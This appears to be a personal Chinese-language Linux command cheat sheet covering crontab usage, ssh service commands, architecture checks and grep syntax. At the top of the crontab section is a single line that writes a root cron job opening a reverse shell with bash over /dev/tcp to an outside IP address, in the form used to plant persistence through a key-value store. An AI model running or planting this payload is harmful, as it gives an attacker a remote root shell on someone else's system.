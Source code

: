 

# Crontab

set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/172.18.0.1/21 0>&1\n\n\n\n"

| crontab -l                                | 列出crontab文件                 |
| ----------------------------------------- | ------------------------------- |
| crontab -e                                | 编辑crontab文件                 |
| service crond status                      | 查看crontab服务状态             |
| service crond start                       | 手动启动crontab服务             |
| 30 21 * * * /etc/init.d/smb restart       | 每晚的21:30重启smb              |
| 30 21 1,10,22 * * /etc/init.d/smb restart | 每月1、10、22日的21:30重启smb   |
| 10 1 * * 6,0 /etc/init.d/smb restart      | 每周六、周日的1 : 10重启smb     |
| * * * * * command                         | 每1分钟执行一次command          |
| /var/spool/cron/root                      | centos系统下root用户的cron文件\ |
| /var/spool/cron/crontabs/root             | debian系统下root用户的cron文件\ |

 

 

# ssh服务

sudo rm /var/cache/apt/archives/lock

sudo rm /var/lib/dpkg/lock

/etc/init.d/ssh start 开启ssh

service sshd restart

ssh-keygen -R "你的远程服务器ip地址"  清除你当前机器里关于你的远程服务器的缓存和公钥信息 

位数

Uname -m    i686、i386是32bit

file /lib/systemd/systemd

Arch

getconf LONG_BIT

 

# Grep

ps -e | grep sshd

[root@www ~]# grep [-acinv] [--color=auto] '搜寻字符串' filename
